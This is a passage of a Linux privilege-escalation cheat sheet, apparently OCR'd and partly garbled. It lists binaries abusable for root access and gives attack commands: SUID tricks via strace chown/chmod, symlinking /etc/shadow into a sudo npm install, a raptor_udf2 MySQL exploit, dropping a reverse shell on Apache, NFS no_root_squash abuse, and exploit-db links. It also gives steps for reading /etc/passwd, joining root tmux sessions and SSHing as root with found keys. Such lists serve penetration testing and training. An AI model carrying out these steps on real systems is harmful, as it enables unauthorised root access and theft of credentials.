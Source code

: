 curl	
dash	
pico	
nano	
vrim	
tclsh	
git	
scp	
expect	
ftp	
socat	
script	
ssh	
zsh	
tclsh	
strace	Write and compile a a SUID SUID binary c++ program
strace chown root:root suid
strace chmod u+s suid
./suid
npm	ln -s /etc/shadow package.json && sudo /usr/bin/npm i *
rsync	
tar	
Screen-4.5.00	https://www.exploit-db.com/exploits/41154/
Note: You can find an incredible list of Linux binaries that can lead to privledge escalation at the GTFOBins project website here:
https://gtfobins.github.io/

Can I access services that are running as root on the local network?
netstat -antup
ps -aux | grep root

Network Services Running as Root	Exploit actions
mysql	raptor_udf2 exploit
0xdeadbeef.info/exploits/raptor_udf2.c
insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));
apache	drop a reverse shell script on to the webserver
nfs	no_root_squash parameter
Or
if you create the same user name and matching user id as the remote share you can gain access to the files and write new files to the share
PostgreSQL	https://www.exploit-db.com/exploits/45184/
Are there any active tmux sessions we can connect to?
tmux ls

What can we READ?
What files and folders are in my home user's directory?
ls -la ~

Do any users have passwords stored in the passwd file? cat /etc/passwd

Are there passwords for other users or RSA keys for SSHing into the box?
ssh -i id_rsa root@10.10.10.10

Are there configuration files that contain credentials?
